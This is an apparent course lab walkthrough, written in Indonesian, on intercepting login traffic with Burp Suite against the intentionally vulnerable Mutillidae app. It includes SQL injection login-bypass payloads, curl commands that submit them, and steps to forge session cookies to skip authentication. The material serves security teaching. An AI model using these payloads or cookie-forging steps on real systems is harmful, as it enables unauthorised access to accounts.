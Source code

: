 # SQL Injection, Burpsuite, cURL, Man-In-The-Middle Attack

1. untuk melakukan Man-in-the-Middle Attack proxy browser harus diarahkan ke ip yang melakukan MitM. dalam kasus ini untuk mensimulasikan MitM attack kita mengarahkan proxy ke 127.0.0.1 (localhost) dan port 8000.
![1](/lesson6/1.png)

2. Buka aplikasi Burpsuite untuk melakukan sniffing
![1](/lesson6/2.png)
![1](/lesson6/3.png)
![1](/lesson6/4.png)

3. Buka tab proxy lalu ke sub-tab options. pastikan proxy listener mengarah ke alamat yang benar (dalam kasus ini 127.0.0.1 port 8000).
![1](/lesson6/5.png)

4. Buka sub-tab intercept dari tab proxy dan pastikan "intercept is off"
![1](/lesson6/6.png)

5. Buka halaman login dari mutillidae dan lakukan sql injection dasar untuk login
```
' or 1=1-- '
```
Jangan lupa menambahkan spasi setelah sintaks comment ```"-- "```
![1](/lesson6/7.png)

6. Buka Burpsuite dan cari urlnya yang mengandung string ```/mutillidae/index.php?page=login.php```
![1](/lesson6/8.png)

7. Gunakan curl dengan post data yang didapatkan pada Burpsuite untuk mengambil source code dari halaman yang sudah terkena sql injection dan memasukkannya kedalam file login.txt
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.156/mutillidae/index.php?page=login.php" > login1.txt
```
![1](/lesson6/9.png)

8. ambil string yang mengandung ```Logged In``` pada file ```login.txt``` dengan mengetikkan command:
```
grep "Logged In" login.txt
```
![1](/lesson6/10.png)

9. Buka file crack_cookies.txt yang tadi dibuat saat curl dan analisa isinya.
```
cat crack_cookies.txt
```
![1](/lesson6/11.png)
 * di baris atas ada session ID yang dapat digunakan sebagai passwod sementara (akses masuk)
 * UID 1 menandakan bahwa user tersebut adalah record pertama di database

10. kembali ke halaman login, isikan name dengan "samurai" lalu inspect element pada kolom password dan ubah maxlength menjadi 50 ```maxlength="50"```
![1](/lesson6/12.png)

11. Lakukan sniffing request pada Burpsuite lagi
![1](/lesson6/13.png)

12. block semua raw request pada paket tersebut lalu save ke file dengan nama burp2.txt
![1](/lesson6/14.png)

13. cari pada file burp2.txt yang mengandung string cookie dan username
```
grep -i cookie burp2.txt
```
```
grep -i username burp2.txt
```
![1](/lesson6/15.png)

14. lakukan curl seperti pada langkah sebelumnya dengan menggunakan post data yang didapat dari Burpsuite yang terakhir dan analisa cookienya
```
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://10.151.36.156/mutillidae/index.php?page=login.php" > login2.txt
```
![1](/lesson6/16.png)

15. Sekarang matikan proxy dan gunakan cookie manager saat berada di halaman login untuk membuat cookie agar dapat login tanpa menggunakan autentikasi
 * ![1](/lesson6/17.png)
 * ![1](/lesson6/18.png)

16. buat cookie seperti pada gambar dibawah
 * ![1](/lesson6/19.png)
 * ![1](/lesson6/20.png)
 * ![1](/lesson6/21.png)
 * ![1](/lesson6/22.png)
 * ![1](/lesson6/23.png)
17. setelah semua cookie dibuat sesuai dengan data yang didapatkan dari burp dan curl. maka kita dapat masuk tanpa menggunakan fitur login autentikasi.
![1](/lesson6/24.png)
